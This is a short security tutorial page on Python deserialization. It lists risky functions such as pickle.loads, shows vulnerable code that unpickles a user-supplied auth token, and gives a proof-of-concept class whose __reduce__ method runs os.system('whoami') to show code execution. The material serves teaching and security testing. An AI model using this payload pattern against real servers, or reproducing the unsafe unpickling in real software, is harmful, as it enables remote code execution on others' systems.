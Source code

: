 +++
title = "Python Deserialization"
description = "Python deserialization techniques."
date = "2023-03-28"
include_toc = 'true'
+++

# Python Deserialization

* In Python source code, look for:
    * `cPickle.loads`
    * `pickle.loads`
    * `_pickle.loads`
    * `jsonpickle.decode`

## Pickle

The following code is a simple example of using `cPickle` in order to generate an auth_token which is a serialized User object.
:warning: `import cPickle` will only work on Python 2

```python
import cPickle
from base64 import b64encode, b64decode
class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"
h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

The vulnerability is introduced when a token is loaded from an user input. 

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 documentation clearly states Pickle should never be used with untrusted sources. Let's create a malicious data that will execute arbitrary code on the server.

> The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.
```python
import cPickle, os
from base64 import b64encode, b64decode
class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))
e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```

## References

* [Exploiting misuse of Python's "pickle" - Mar 20, 2011](https://blog.nelhage.com/2011/03/exploiting-pickle/)
* [Python Pickle Injection - Apr 30, 2017](http://xhyumiracle.com/python-pickle-injection/)